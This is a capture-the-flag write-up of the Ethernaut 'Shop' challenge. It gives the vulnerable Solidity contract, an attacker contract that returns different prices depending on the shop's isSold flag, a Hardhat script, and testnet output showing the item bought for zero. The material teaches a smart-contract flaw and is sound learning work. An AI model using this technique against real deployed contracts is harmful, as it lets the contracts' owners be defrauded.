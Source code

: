 ```yaml
---
title: "Ethernaut #21 Shop"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Shop challenge writeup
---
```


## Shop

### Challenge

Сan you get the item from the shop for less than the price asked?

#### Things that might help:

* `Shop` expects to be used from a `Buyer`
* Understanding restrictions of view functions


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

### Background

By the looks of it this challange is a bit akward. It does not seem to accomplish much by design, but after trying to solve it, the point of it is clear. In general it looks a lot like the `Elevator` challange. However, in this case the function is a `view` which means it cannot update the contract state. For the `Elevator` challange the contract state update was used as the main technique to change the return value.

In this case, since the state "cannot" be updated that easily, we could relly on "side-channel" techniques to achieve this such as measuring the remaining gas, or check other state changing variables. In this case such a variable exists and it is the `isSold` variable in the `Shop` contract.

I actually believe that if we where to skip all the compiler checks in solidity (if that is possible), or just write a function in raw EVM assembly, we could possibly bypass the `view` restriction and have a state changing function. However, I did not try this and I'm not sure it would work, I just don't clearly see why it wouldn't.

### Attack

Create a contract that implements the `Buyer` `interface`. This contract should be able to call the `Shop` contract `buy` function and return `100` or `0` for price depending if the `Shop` variable `isSold` is set or not. If the `isSold` is set, it should return `0` otherwise it should return `100`. This way, during the first check, the function will return `100` while at the second check it would return `0`.

* Create a contract that:
  * impelemnts the `Buyer` `interface` but when `price` is called, the price return would depend on the `Shop` contracts `isSold` variable
    * If `isSold` is `true` -> return `0`
    * If `isSold` is `false` -> return `100`
  * implements a `buy` function that triggers the `Shop` contract `buy` function
* Trigger the attacker contract `buy` function

#### ShopSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import "../challenges/Shop.sol";

contract ShopSolve {
    Shop shopContract;

    constructor(address payable _shop) public {
        shopContract = Shop(_shop);
    }

    function buy() public payable {
        shopContract.buy();
    }

    function price() external view returns (uint256) {
        if (shopContract.isSold()) {
            return 0;
        }
        return 100;
    }
}
```

#### shop-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    shopAddress = "0x7B710215cc6901910B2940D2CC8b5758eB7d70B7";
    contract = await ethers.getContractAt("Shop", shopAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ShopSolve = await ethers.getContractFactory("ShopSolve");
    shopSolve = await ShopSolve.deploy(contract.address);
    await shopSolve.deployed();

    console.log("Level address : " + contract.address)
    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())

    // trigger attacker contract buy function
    tx = await shopSolve.connect(account).buy()
    receipt = await tx.wait()

    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/shop-solve.js --network rinkeby
Level address : 0x7B710215cc6901910B2940D2CC8b5758eB7d70B7
Is Sold       : false
Price         : 100
Is Sold       : true
Price         : 0
```

### Success Message

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
